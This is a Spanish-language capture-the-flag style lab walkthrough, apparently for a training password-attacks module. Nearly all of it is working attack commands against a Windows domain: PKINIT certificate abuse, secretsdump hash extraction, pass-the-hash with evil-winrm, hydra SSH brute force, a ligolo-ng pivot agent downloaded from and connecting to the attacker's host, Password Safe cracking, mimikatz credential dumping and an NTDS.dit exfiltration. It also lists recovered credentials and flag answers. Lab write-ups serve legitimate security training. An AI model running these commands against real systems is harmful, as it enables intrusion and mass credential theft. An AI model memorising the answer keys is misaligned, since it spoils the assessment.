>Es un contenedor digital seguro que se utiliza para almacenar e intercambiar certificados de seguridad.

>Su gran ventaja es que **guarda todo lo necesario para demostrar una identidad digital en un solo archivo cifrado con contraseña.**

```
base64 -d DC01$.pfx > C01-decoded.pfx
```

No olvidarse luego, ingresar de nuevo en un **entorno virtual**, dentro de impacket descargamos la herramienta **PKINITtools**

```
git clone https://github.com/dirkjanm/PKINITtools.git 
cd PKINITtools
chmod +x gettgtpkinit.py 
python3 gettgtpkinit.py -cert-pfx C01-decoded.pfx -dc-ip  10.129.234.174 'inlanefreight.local/dc01$' dc.ccache
```

> Al pasarle este certificado descoficado a **`gettgtpkinit.py`**, engañas al sistema para que te devuelva un ticket de Kerberos legítimo (`.ccache`) con los máximos privilegios de la red, el cual puedes inyectar en herramientas como `secretsdump` para extraer de golpe todas las contraseñas de la empresa sin que nadie te lo impida.

<p align="center"> 

</p>

Creamos una variable entorno y llevamos acabo el siguiente comando:

```
export KRB5CCNAME=dc.ccache
python3 /home/dani/Escritorio/Herramienta/impacket-0.9.24/examples/secretsdump.py -k -no-pass -dc-ip 10.129.234.174 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```

>**`secretsdump.py`** es la herramienta de ejecución final en este tipo de ataques; sirve para **extraer de forma masiva todas las contraseñas cifradas (hashes)** almacenadas en el sistema informático de una red o equipo Windows.

<p align="center"> 

</p>

En un principio no funcionará porque hay que registrra la ip del servidor en el archivo **/etc/hosts**

<p align="center"> 

</p>

repetimos de nuevo el comando 

```
python3 /home/dani/Escritorio/Herramienta/impacket-0.9.24/examples/secretsdump.py -k -no-pass -dc-ip 10.129.234.174 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```

<p align="center"> 

</p>

Hemos conseguido el hash del administrator.

Credenciales --> **Administrator**:**fd02e525dd676fd8ca04e200d265f20c**

Ahora abriremos una sesión con Administrator por evil-winrm

```
evil-winrm -u Administrator -i 10.129.234.174 -H fd02e525dd676fd8ca04e200d265f20c
type C:\Users\jpinkman\desktop\flag.txt
```

answer: **3d7e3dfb56b200ef715cfc300f07f3f8**

2. **What are the contents of flag.txt on Administrator's desktop?**

Manteniendo la sesión anterior, realizaremos el siguiente para obtener la flag

```
type C:\Users\Administrator\Desktop\flag.txt
```

Answer: **a1fc497a8433f5a1b4c18274019a2cdb**

## Skills Assessment

### Skills Assessment - Password Attacks

1. **What is the NTLM hash of NEXURA\Administrator?**

En esta actividad nos da un nombre de usuario y una contraseña, usaremos la herramienta **username-anarchy** que sirve para sacar diferentes nick apartir del nombre del usuario que tenemos. Esta herramienta ya la descargamos en ejercicio anteriores

```
./username-anarchy Betty Jayde > username.txt
```

<p align="center"> 

</p>

Luego, usaremos hydra para saber que usuario es correcto.

```
hydra -L username.txt -p 'Texas123!@#' 10.129.324.116 ssh
```

<p align="center"> 

</p>

Credenciales --> **jbetty**:**Texas123!@#**

```
ssh jbetty@10.129.234.116
```

A continuación, usaremos la herramienta ligolo.

>Es una herramienta que le permite a un atacante o auditor de seguridad **entrar en una red interna a la que no tenía acceso**, usando como puente una computadora que ya logró compromete

Ligolo Proxy (servidor), lo llevaremos acabo en nuestra kali, con el siguiente comando logramos descargar el archivo **proxy**

```
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
tar -xvf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

Con los siguientes comandos configuramos **proxy** y lo activamos.

```
sudo ip tuntap add user dani mode tun ligolo  
sudo ip link set ligolo up
sudo ./proxy -selfcert
```

Con el siguiente comando descargamos ligolo **agente** para la maquina objetivo. 

```
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
tar -xvf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

Una vez descargado tendremos que enviarlo a nuestra maquina objetivo:

```
python3 -m http.server 80
```

En la maquina objetivo nos situamos en la carpeta **/tmp**, lo descargamos y activamos.

```
wget http://10.10.14.40:80/agent
chmod +x agent
./agent -connect 10.10.14.40:11601 -ignore-cert
```

<p align="center"> 

</p>

**IMPORTANTE:** 1º Se activa siempre el proxy, y en 2º lugar activamos el agente.

<p align="center"> 

</p>

Importante tenderemos que hacer despues si o si este comando, dependiendo de la ip lo tendremos que editar pero siempre en /24.

```
sudo ip route add 172.16.119.0/24 dev ligolo
```

Cuando iniciamos sesión con el usuario betty, obtenemos las siguientes credenciales.

```
history | grep -iE "mysql|psql|ssh|password|conn"
```

<p align="center"> 

</p>

Credenciales --> **hwilliam**:**dealer-screwed-gym1**

A continuación usaremos la herramienta **impacket-smbclient** porque tenemos que encontrar un archivo **.psafe3**

>Es un archivo de base de datos cifrada creado por **Password Safe**, un gestor de contraseñas de código abierto clásico y muy seguro

Para saber el dominio del usuario hwilliam usaremos crackmapexec.

```
crackmapexec smb 172.16.119.10  -u 'hwilliam' -p 'dealer-screwed-gym1' 
```

<p align="center"> 

</p>

```
impacket-smbclient nexura.htb/hwilliam:'dealer-screwed-gym1'@172.16.119.10 
shares
```

<p align="center"> 

</p>

```
use HR 
cd Archive
ls
```

<p align="center"> 

</p>

```
get Employee-Passwords_OLD.psafe3
exit
```

Para obtener la contraseña del archivo realizamos el siguiente comando:

```
pwsafe2john Employee-Passwords_OLD.psafe3 > pwhash.txt
john --format=pwsafe --wordlist=/usr/share/wordlists/rockyou.txt pwhash.txt
```

La contraseña del archivo **Employee-Passwords_OLD.psafe3**  es **michaeljackson**

A continuación, iniciamos rdp con las siguientes credenciales si o si funcionará con la ip 172.16.119.7, aunque no haga ping, cosa rarísima y trasladamos el sistema el archivo **Employee-Passwords_OLD.psafe3**

```
xfreerdp3 /u:hwilliam /p:'dealer-screwed-gym1' /v:172.16.119.7
```

Otra forma de copiar un archivo a rdp, sería copiar el archivo tal cual el archivo  (control + c) **Employee-Passwords_OLD.psafe3** y pegarlo en el escritorio (control + v)

<p align="center"> 

</p>

Ingresamos tanto el archivo como la contraseña 

<p align="center"> 

</p>

Si hacemos doble click se nos copiará la contraseña de los usuarios.

Credenciales:

**bdavid**:**caramel-cigars-reply1**
**stom**:**fails-nibble-disturb4**
**hwilliam**:**warned-wobble-occur8**

Una vez obtenida las credenciales usamos la del usuario bdavid mediante rdp.

```
xfreerdp3 /v:172.16.119.7 /u:bdavid /p:'caramel-cigars-reply1' 
```

Abrimos PowerShell y enumeramos privilegios

```
whoami /priv 
```

<p align="center"> 

</p>

```
whoami /groups 
```

<p align="center"> 

</p>

Lo que mas me interesa es que el usuario bdavid pertenece al grupo administrador, por tanto, podemos usar mimikatz para extraer hash ntlm o texto plano de algun usuario etc.

Como comente anteriormente podemos trasladarnos al siguiente copiando la herramienta (control +c) y pegarlo en el escritorio (control +v)

<p align="center"> 

</p>

**IMPORTANTE** Accedemos a la powershell como administrator

```
cd C:\Users\bdavid\Desktop\
.\mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonpasswords
```

<p align="center"> 

</p>

Credenciales --> **stom**:**calves-warp-learning1**

Una vez obtenida las credenciales accedemos mediante RDP.

```
xfreerdp3 /u:stom /p:'calves-warp-learning1' /v:172.16.119.11 
```

Abrimos la powershell administrador.

```
ntdsutil "ac i ntds" "ifm" "create full C:\Exfil\Dump" q q
```

<p align="center"> 

</p>

En la siguiente ubicacion encontraremos los archivos importante que necesitamos.

Exfil - Dump - Active Directory - **ntds.dit** 
Exfil - Dump - registry - **SYSTEM**

Copiamos **ntds.dit** y **SYSTEM** en nuestra kali y usaremos el siguiente comando:

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

<p align="center"> 

</p>

answer: **36e09e1e6ade94d63fbcab5e5b8d6d23**